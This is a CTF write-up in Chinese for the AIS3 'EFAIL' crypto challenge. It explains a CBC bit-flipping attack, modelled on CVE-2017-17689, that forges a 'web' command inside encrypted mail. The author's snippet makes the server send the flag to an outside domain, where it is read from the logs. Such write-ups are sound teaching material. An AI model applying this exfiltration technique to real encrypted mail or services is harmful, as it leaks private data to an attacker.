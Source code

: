 

# EFAIL (4)

![](AIS3-Crypto4-1.png)

* 題目 ：
    * 連線過去輸入1, 你會發現，他的密文長度600多：flag 大約 32~48 bytes
    * 當你試著輸入2, 你會發現，這個題目不會給你反應＠＠
    * AES-CBC with Random IV 

不知道這題要幹嘛，反正仔細看看裡面有什麼東西是可以利用到的

1. 已知明文(除了flag)，把他依照 block 切開
```
0 b'From: thor@ais3.'
16 b'org\nTo: ctfplaye'
32 b'r@ais3.org\n\n--BO'
48 b'UNDARY\nType: tex'
64 b't\nWelcome to AIS'
80 b'3 pre-exam.\n\n--B'
96 b'OUNDARY\nType: cm'
112 b"d\necho 'This is "
128 b'the blog of oali'
144 b"eno'\nweb 'https:"
160 b'//oalieno.github'
176 b".io'\necho 'This "
192 b'is the blog of b'
208 b"amboofox team'\nw"
224 b"eb 'https://bamb"
240 b'oofox.github.io/'
256 b"'\n\n--BOUNDARY\nTy"
272 b'pe: text\nYou can'
288 b' find some usefu'
304 b'l tutorial on th'
320 b'ere.\nAnd you mig'
336 b'ht be wondering '
352 b'where is the fla'
368 b'g?\nJust hold tig'
384 b'ht, and remember'
400 b' that patient is'
416 b' virtue.\n\n--BOUN'
432 b'DARY\nType: text\n'
448 b'Here is your fla'
464 b'g : {aaaaaaaaaaa'
480 b'aaaaaaaaaaaaaaaa'
496 b'aaa}\n\n--BOUNDARY'
512 b'\nType: text\nHope'
528 b' you like our cr'
544 b'ypto challenges.'
560 b'\nThanks for solv'
576 b'ing as always.\nI'
592 b"'ll catch you gu"
608 b'ys next time.\nSe'
624 b'e ya!\n\n--BOUNDAR'
640 b'Y\n'
```

2. 可以發出 request 

```python
....
    elif cmd.startswith(b'web'):
        x = content.find(b'//')   #
        print(content)
        if x != -1:
            url = content[:x].decode('utf-8') + '//' + quote(content[x+2:])
        else:
            url = 'http://' + quote(content)
            print(url)
        try:
            req = urlopen(url)
            print('request')
            text = req.read()
            raw_mail += b'+ ' + content + b'\n'
            raw_mail += b'\n'.join(re.findall(b'<p>(.*)</p>', text)) + b'\n'
        except (HTTPError, URLError) as e:
            pass
...
```

## SOLVE

假設我能夠生出 `Type: cmd:\n web 'my-domain/ ... flag ... '\n`

Server 就會把 Flag 包在 GET REQUEST 裡面送到我的伺服器

再去 log 挖 FLAG 就好。

## CODE

我選擇第 256 bytes `'\n\n--BOUNDARY\nTy`

這個 block 剛好接再 `type : cmd` 後面，我可以少做一件事

接著，我只要毀掉後面出現的 `\n\n` 以及在 flag 之後製造出 `'\n` 結束這個 Request 

但是要注意這個 block 在 `oofox.github.io/` 後面，還沒關上，所以要在這 request 後面加上 `'`

`'\n\n--BOUNDARY\nTy` ->  `'\nweb'my-domain/` 

可以塞進 9 bytes 的 domain name

剩下的就是製造 payload 等著去 log 撿 FLAG 了


```python
...
# CBC_XOR :(cipher, from plaintext, to fake_plain)
temp = CBC_XOR(cipher[256-16:256] ,"'\n\n--BOUNDARY\nTy", "\'\nweb\'maojui.tk/")
temp2 = xor_string(cipher[448:512],"kbcd")
temp3 = CBC_XOR(cipher[512-16:512] ,"\nType: text\nHope","\'\n\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00")

cipher = cipher[:256] \
        + temp  + cipher[256:256+16]  \ # Bamboofox .... /...garbage here...'
        + temp2 + cipher[448+4:512]   \ # Here have a ':', This will make request recognize to port 
        + temp3 + cipher[512:]          # End the request to my domain

payload = b64e(switchBS(cipher))
...
```

### AIS3{Th0r - CVE-2017-17689 Ef4IL r4GNaroK}
